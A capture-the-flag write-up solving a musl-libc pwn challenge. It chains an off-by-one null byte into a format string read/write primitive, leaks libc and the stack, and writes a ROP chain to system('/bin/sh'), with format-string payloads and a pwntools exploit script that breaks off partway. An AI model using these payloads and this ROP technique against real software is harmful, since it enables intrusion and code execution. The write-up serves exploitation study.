`beating_yellow_king_with_musl_in_ng+` is a `binary exploitation` challenge. From `Off-by-one` to `read/write` `primitive` via Format String vulnerability and from `ROP` chain to `shell`.


The way I solved this challenge turns out to be _unintended_, so if you are looking to learn `FSOP (File Stream Oriented Programming)` then check-out their official write-up for this challenge.


### General Inspection

We begin by inspecting what we’ve been given in the `challenge` `handout`. We are provided with two files `./chall` and `./libc.so`. Let’s gather some information about these two files by using `checksec` which will tell us about `protections` applied on these binaries. By knowing which `protections` are applied, we can better guide ourselves in narrowing down vulnerabilities that we are expecting to be needed in-order to obtain control.



While `libc.so` has all protections enabled, we see that `chall` binary lacks `PIE` that means addresses within binary is fixed. This is interesting if in case we want to utilize `gadgets` from within `chall` binary then we won’t be needing to be able to leak `addresses` from within the binary because it remains fixed as we can see.



From above, we see that `./chall` uses `./libc.so` as its `loader` and both are `x64bit` binaries.



From above, we notice something interesting. This is not our typical `glibc` `loader` but rather `musl` `libc`. This is surely interesting because it might affect the way we approach discovering vulnerabilities and the way we exploit them if its implementation of `library` `functions` differ significantly from that of `glibc`‘s `library` `functions`. _Although this didn’t turned out to be the case for our approach._



### Interactive Understanding

Let’s run the binary and try to poke around it, observe its `input` and `output`. In that way, we might be able to have an idea in the back of our head as to “_what to look for_” when we see the de-compilation of the binary and try to understand how it works.



And as the tradition goes, we have to spam bunch of `"A"` in the `input` and see how the application reacts to it. As you can see below, the application starts looping weirdly and so it means our `input` is surely affecting the `application` in a weird way and that is a good news for us.


### Primitives and Limitations

Let us now focus on going through the `de-compilation` of the binary to inspect the anomaly that we found earlier and see what vulnerabilities lurks in it.

```c
int main(int argc, const char **argv, const char **envp)
{
  int v3;
  unsigned __int64 v4;

  v4 = __readfsqword(0x28u);
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      scanf("%d", &v3);
      if ( v3 != 2 )
        break;
      action();
    }
    if ( v3 == 3 )
      exit(0);
    if ( v3 == 1 )
      make_char();
    else
      puts("wrong option");
  }
}
```

In the `main()` function we see `menu()`, `action()` and `make_char()` being invoked. `menu()` function simply prints out the menu that we see throughout the interaction. Nothing interesting there. We see that `exit(0)` is executed when we select the third option in the `menu()`. First option invokes `make_char()` function and Second option invokes `action()` function. Let’s dive into them.

```c
void make_char()
{
  _BYTE *v0;
  char v1;
  ssize_t v2;
  __int64 v3;
  unsigned int v4;
  unsigned __int64 v5;

  v5 = __readfsqword(40u);
  v4 = 0;
  puts("enter index:");
  scanf("%d", &v4);

  if ( v4 > 0xF )
  {
    puts("wrong index");
  }
  else
  {
    v0 = malloc(33u);
    puts("Enter the class");
    printf("1.magician\n2.swordsman\n3.thief\n>>");
    scanf("%hhu", v0 + 32);
    v1 = v0[32];

    if ( (unsigned __int8)(v1 - 1) <= 2u )
    {
      printf("Enter the name for character\n>>");
      v2 = read(0, v0, 32u);
      v3 = (int)v4;
      v0[v2] = 0;
      list[v3] = v0;
    }
    else
    {
      if ( v1 )
        puts("Wrong class");
      else
        puts("You aren't D3rdlord3");
      free(v0);
    }
  }
}
```

We see that when we create our `character`, our `index` needs to be less than `16`. If it is so then rest of the function goes on to create our `character`.

First, `33 bytes` is `malloc()` and set to `v0` variable. Then we are asked to select our `class`, given options with values in between `1,2` and `3`. Our `class` value is stored at `32nd byte` in the memory allocated previously and referred to by `v0` variable. A simple check is then made to see if our `class` value is valid or not. If it is valid, it asks us to enter our `character’s` name.

Our `character's` name is stored from the beginning of memory referenced by variable `v0` and `read()` function reads `32 bytes` into the allocated memory. This is interesting because our `class` value is stored at `32nd byte`. Now to put the confusion of `zero-indexing` aside, let’s visualize it like this. Our `character` name will be stored from `0th byte to 31st byte` totaling `32 bytes` and our `class` value is stored at `32nd byte` totaling now to `33 bytes` as allocated at the beginning.



Now, a common knowledge is that `read()` function terminates the provided `input` `string` with a `NULL` terminator or a `\x00` byte. Hence, if we exactly `input` `32 bytes` then `33rd byte` will be overwritten with `\x00` byte in place of where our `class` value is supposed to be. This is an example of `Off-by-one` error.

Now, let’s inspect the `action()` function and see if this will have any consequences later on.

```c
__int64 action()
{
  __int64 v0;
  unsigned __int8 v1;
  unsigned int v3;
  char buf[72];
  unsigned __int64 v5;

  v5 = __readfsqword(40u);
  puts("enter index:");
  scanf("%d", &v3);
  if ( v3 > 0xF )
  {
    puts("wrong index");
    return 0;
  }
  v0 = list[v3];
  printf("You chose %s \n", (const char *)v0);
  v1 = *(_BYTE *)(v0 + 32);
  if ( v1 == 2 )
    goto LABEL_5;
  if ( v1 > 2u )
  {
    if ( v1 != 3 )
      return 0;
    goto LABEL_5;
  }
  if ( v1 )
  {
LABEL_5:
    puts("You have lost");
    list[v3] = 0;
    free((void *)v0);
    return 0;
  }
  puts("You may leave a message about your encounter and leave..");
  read(0, buf, 48u);
  if ( count_char(buf, 37, 13) )
  {
    puts("No one can handle that much knowledge..");
  }
  else
  {
    puts("The message left for other adventurers..");
    printf(buf);
  }
  return 0;
}
```

Here, we see that it accesses our created `character` via our provided `index` referred to via `v0` variable. It prints out our `character's` name. Now it sets `v1` to refer to our `class` value. Now we seen an interesting chunk of code that becomes accessible when our `class` value becomes equal to `0`. We know that we have `Off-by-one` primitive that overwrites `class` value with a `null byte` and thus we can take this code-path.

The code then continues to ask us for an `input` using `read(0, buf, 48)`. It stores our `input` inside `buf` which is then utilized for `printf(buf)` call giving us a `Format String` vulnerability.



There’s a few catch however. First is that it verifies the presence of `%` and if it is more than `13` then it simply returns without going through `printf(buf)` code-path. One can further confirm this by going through `count_char()` function but it is obvious by the name of it and the arguments that are passed to it.

Second, this challenge had a lot of instability dealing with `positional specifiers` such as `%index$type`. So, we are limited to using `sequential specifiers` i.e `%c`, `%s`, `%p`, `%n`, etc.

To obtain _memory read_ via `Format string`, we need to first figure out `offset` to our `input` then we simply need to arrange our `printf(buf)` input in a way that puts our `address` at last and when aligned properly with `format specifiers`, it will print the value at that given `address`.

To obtain _memory overwrite_ via `Format string`, we can use `%hn` specifier to write lower `2 bytes` of the total number of characters written up-to this point to an `address` specified by its corresponding `argument` that we are going to provide, preceded by `%{spaces}c` specifier to put space characters out that will constitute the characters written.

`Format String Exploits` in itself is a complicated subject in `Binary Exploitation`, please refer to other resources if you are unable to understand why we are doing this or how is this even possible.

### Exploiting Format String

Since we have `read` and `write` primitives via `Format String Vulnerability`. We can leak out `addresses` in memory which might lead us to be able to leak out addresses from `libc` or `stack`. With `libc` leak, we can calculate `addresses` of various functions available within `libc` and with `stack` leak, we can figure out the `address` of `saved instruction pointer` to overwrite and obtain control of the `binary`.

Now, let’s focus on leaking memory simply by putting `positional specifiers`. We send `%p`, 13 times and observe the `output`. Below you can observe one of the values being an `address` from `libc`. There we have it, a `libc` leak.



We are limited by `13` characters of `%` and we don’t see any address leak from `stack` there. We have another way to obtain `stack` `address` and that is via `environ`. It is a _global_ _variable_ within the `libc` that stores a `pointer` that points to the location of the _environment variables_ on the `stack`.

Now, we will read the value at `environ` and `address` for which we can calculate by finding its `offset` within `./libc.so`. Since we already have leaked `libc` address that belongs to `__stdout_FILE`, we calculate the `base` `address` for `libc` by subtracting offset of the given leak.



Let’s do the calculations now which you can see below. Simple arithmetic. We are able to leak a `libc` `address` from which we can calculate the `base address` of `libc` and with which we can find any function that reside within `libc`. `environ` is one such area within `libc` that contains `stack address`.


Let’s `read` the `environ` global variable using our `read` primitive. But first we need to find the offset at which our input can be pointed to by a `format specifier`.


Now, we simply replace `13th` `%p` format specifier with `%s` and provide it with the address of `environ`. We get the `stack leak`, and we subtract that leaked `address` with address of `saved instruction pointer` to get the `offset`.

```py
payload = b" %p %p %p %p %p %p %p %p %p %p %p %p %s " + p64(libc_environ)
```



Fine, we’ve got what we wanted from our `read` primitive and now its time to play with our `write` primitive. As we’ve discussed before, our payload will consist of using `f”{prefix}%{needed}c%hn”` where `prefix` will be added just enough to push `specifiers` at `desired` `positions`. We found that we can write `2 bytes` at a time and it is stable. We also append some `padding` to make sure our `address` to `write` to appears exactly where our `specifier` is expecting it to be. A lot of this is figured out by doing a lot of _trial and error_.

```py
def write_primitive(target_addr, val_to_write):
    prefix = "%c" * 11
    current_char_count = 11
    val = val_to_write & 0xFFFF
    if val == 0: val = 0x10000

    needed = val - current_char_count

    while needed <= 0:
        needed += 0x10000

    fmt = f"{prefix}%{needed}c%hn".encode()

    if len(fmt) > 40:
        return b""

    pad_len = 40 - len(fmt)
    padding = b"A" * pad_len

    payload = fmt + padding + p64(target_addr)

    return payload
```



And boom, we got control over the `return address`. We overwrote `0x1177`, the last two bytes of the `saved return address` with `0x1337`.



A few things to note. First, we cannot overwrite `saved return address` first otherwise we will simply crash or it won’t be meaningful. Second, we only have partial control over the `saved return address` because `action()` function returns after processing through our `input` as we’ve seen till now and in the de-compilation. So, we cannot change more than `2 bytes` because next time it won’t land in the loop. Thus, any change to `saved return address` must be our final change.

Another thing to note is that during our `debugging`, we found out that there was an `address` just after our `saved return address` which was being overwritten over our value (its higher 4 bytes) and we were only able to overwrite its lower 4 bytes. This is problematic because essentially it is a `tainted address` and we have to take care of this while building our `ROP` chain.



### Building a ROP chain

We want to be creatively lazy today, we will take the route of `ROP` chaining our way through. The idea is simple, use instructions from `libc` or `application` itself to build a meaningful functionality and for us that is to pop a `shell`.

We typically want to do something like calling `system("/bin/sh")`. For that, we need an `address` that points to string like `"/bin/sh"` and gadgets that will put that string into `rdi` being the first argument to the function `system()`. Also we will need the address for `system` function which we can easily calculate thanks to `libc` leak.

Luckily, we have the string `“/bin/sh”` available to us but no luck with `pop rdi; ret` gadget. We can tune some settings of `ROPgadget` to make a little more effort but we are lazy today.





But we have a gadget that at-least `pop rdi` but it jumps to `rax`. Okay, still some hope if we can find a gadget that lets us set `rax`.



And look who we found, a `pop rax ; ret` gadget which does exactly that. This gadget exists in both, `libc.so` and `chall` binary.





We will also take a note of `ret ;` gadget to fix `stack alignment` issues which may arise and only through debugging we can find.



Take a note that _building a ROP chain is an iterative process_. Here, you’re looking at pieces that I’ve already put together. While building a `ROP` chain on your own, you will go back and forth between considering different gadgets because building the chain is highly situational.

```txt
------------------------- (ROP CHAIN) -------------------------
[LIBC: POP RAX; RET]
[LIBC: ADDRESS OF RET; INSTRUCTION]
[LIBC: POP RDI; JMP RAX]
[LIBC: ADDRESS OF /bin/sh STRING]
[LIBC: RET] <--- Added for Stack Alignment
[LIBC: ADDRESS OF system()]
----------------------------------------------------------------
```

```py
chain = [LIBC_POP_RAX_RET, LIBC_RET, LIBC_POP_RDI_JMP_RAX, LIBC_BINSH, LIBC_RET, LIBC_SYSTEM]
```

Using our `write` `primitive`, we will automate writing complete `8 bytes` addresses and therefore write our `ROP` chain on the `stack`. Note that `rsp+0x8` is `tainted` one and so we will start writing at `rsp+0x10`.

```py
chain = [LIBC_POP_RAX_RET, LIBC_RET, LIBC_POP_RDI_JMP_RAX, LIBC_BINSH, LIBC_RET, LIBC_SYSTEM]

target_ret = leaked_stack - SAVED_RIP_OFFSET
current_write_addr = target_ret + 0x10
print("[+] Writing ROP chain beginning at :: ", hex(current_write_addr))

for i, gadget in enumerate(chain):
    print(f"[+] Writing gadget {i}: {hex(gadget)}")

    target_value = libc_base + gadget
    print(f"[+] current_write_addr :: {hex(current_write_addr)}")
    print(f"[+] target_value :: {hex(target_value)}")

    # Low
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr, target_value & 0xFFFF)
    print(b"[+] Payload (Low) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    # Mid
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr + 2, (target_value >> 16) & 0xFFFF)
    print(b"[+] Payload (Mid) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    # High
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr + 4, (target_value >> 32) & 0xFFFF)
    print(b"[+] Payload (High) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    # Peak
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr + 6, 0x0000)
    print(b"[+] Payload (Peak) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    current_write_addr += 8

print("[+] ROP Chain written on the stack")
```

Once we overwrite our stack, `2 bytes` at a time. We see our beautiful `ROP` chain coming alive (in the red below). While we also have our `tainted address` to take care of (in the green below), which we will do so by using a `POP RAX ; RET` gadget from `chall`, it is a garbage value and you can just throw it in any other `register` too like `rbx`.



### Triggering The Exploit

Once we have our `ROP` chain ready on the `stack`, all we need to do is overwrite the `saved instruction pointer` with the `address` of a `POP RAX ; RET` gadget inside `chall` binary and so it will pop off the `tainted value` at `rax` register and then `ret` to `rsp+0x10` from where our `ROP` chain begins.

Finally, here’s the complete exploit script —

```py
from pwn import *

p = remote("yellow.chals.nitectf25.live", 1337, ssl=True)

LIBC_STDOUT_FILE_OFFSET = 0xbe280
LIBC_ENVIRON_OFFSET = 0xc0d60
LIBC_POP_RAX_RET = 0x3ef85
LIBC_POP_RDI_JMP_RAX = 0x3e779
LIBC_RET = 0x14133
LIBC_BINSH = 0xa4f60
LIBC_SYSTEM = 0x60b31
LIBC_POP_RBX_RET = 0x3ee55

BIN_RET = 0x1002
BIN_POP_RAX_RET = 0x1001

SAVED_RIP_OFFSET = 0x80

# Helper Function
def write_primitive(target_addr, val_to_write):
    prefix = "%c" * 11
    current_char_count = 11
    val = val_to_write & 0xFFFF
    if val == 0: val = 0x10000

    needed = val - current_char_count

    while needed <= 0:
        needed += 0x10000

    fmt = f"{prefix}%{needed}c%hn".encode()

    if len(fmt) > 40:
        return b""

    pad_len = 40 - len(fmt)
    padding = b"A" * pad_len

    payload = fmt + padding + p64(target_addr)

    return payload


# Initialization

print(p.clean())

p.sendline(b"1")
print(p.recvuntil(b"index:"))

p.sendline(b"0")
print(p.recvuntil(b">>"))

p.sendline(b"1")
print(p.recvuntil(b">>"))

p.sendline(b"A" * 32)
print(p.recvline())

p.sendline(b"2")
print(p.recvuntil(b"index:"))

p.sendline(b"0")
print(p.recvuntil(b"leave..\n"))

# Leaking out Libc Address
p.sendline(b"%p." * 12)

print(p.recvline())

leaked_libc = int(p.recvline().split(b".")[5].strip(), 16)
print("[+] Leaked Libc address :: ", hex(leaked_libc))

print(p.recvuntil(b">>"))

libc_base = leaked_libc - LIBC_STDOUT_FILE_OFFSET
print("[+] Libc Base address :: ", hex(libc_base))

libc_environ = libc_base + LIBC_ENVIRON_OFFSET
print("[+] <environ> address :: ", hex(libc_environ))

# Leaking out Stack Address
payload = b" %p %p %p %p %p %p %p %p %p %p %p %p %s " + p64(libc_environ)

p.sendline(b"2")
print(p.recvuntil(b"index:"))

p.sendline(b"0")
print(p.recvuntil(b"leave..\n"))

p.send(payload)

print(p.recvline())

leaked_stack = int.from_bytes(p.recvline().split(b" ")[13], byteorder="little")
print("[+] Leaked Stack address :: ", hex(leaked_stack))

print(p.recvuntil(b">>"))

# Overwrite Stack for ROP chain
chain = [LIBC_POP_RAX_RET, LIBC_RET, LIBC_POP_RDI_JMP_RAX, LIBC_BINSH, LIBC_RET, LIBC_SYSTEM]

target_ret = leaked_stack - SAVED_RIP_OFFSET
current_write_addr = target_ret + 0x10
print("[+] Writing ROP chain beginning at :: ", hex(current_write_addr))

for i, gadget in enumerate(chain):
    print(f"[+] Writing gadget {i}: {hex(gadget)}")

    target_value = libc_base + gadget
